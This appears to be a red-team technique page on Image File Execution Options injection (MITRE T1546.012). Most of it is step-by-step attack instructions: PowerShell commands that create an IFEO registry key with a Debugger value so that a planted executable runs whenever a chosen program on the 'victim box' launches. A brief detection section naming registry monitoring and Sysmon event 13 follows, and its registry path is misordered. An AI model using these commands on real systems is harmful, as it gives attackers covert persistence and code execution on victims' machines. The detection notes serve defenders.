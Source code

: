 # [Image File Execution Options Injection](https://attack.mitre.org/techniques/T1546/012/)

## Exploit Description: 
Executing malicious content triggered by Image File Execution Options

## Exploit syntax:
* \<posh syntax\>

1. Get a beacon with administrative privileges. 

2. Put a Executable you want to be ran on the victim box.

3. In parrot open a blank text file and paste the following commands into it. The `Name of key` Should be the Program that you want to imitate. `-Value` should be the Path to the executable on vitcims box.
    ```powershell
	New-item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" -Name "Name of key"
	Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Name of key" -name "Debugger" -Value "Path to executable on victim"

    ```
4. Save the file as `SomeCleverName.ps1` to `/tmp`

	
5.  In posh, run
    ```powershell
	pslo /tmp/SomeCleverName.ps1
    ```
6. When the Program you made the registry key for is executed. The name of the key is passed to the Value(Path to the executable on victim) you supplied in the powershell script as an argument. Then that executable is ran.  

---

## Detection Technique:
* Monitor for abnormal usage of the GFlags tool as well as common processes spawned under abnormal parents and/or with creation flags indicative of debugging such as DEBUG_PROCESS and DEBUG_ONLY_THIS_PROCESS

* Monitor for any registry changes to HKLM\Software\Microsoft\CurrentVersion\Windows NT\Image File Execution Options\
  
### Event codes:
* Event.code: 13
  * Registry value set (rule: RegistryEvent)
---

## Resources
 [Image File Execution Options Explained](https://www.youtube.com/watch?v=-hz0PTVa0k4&t=182s)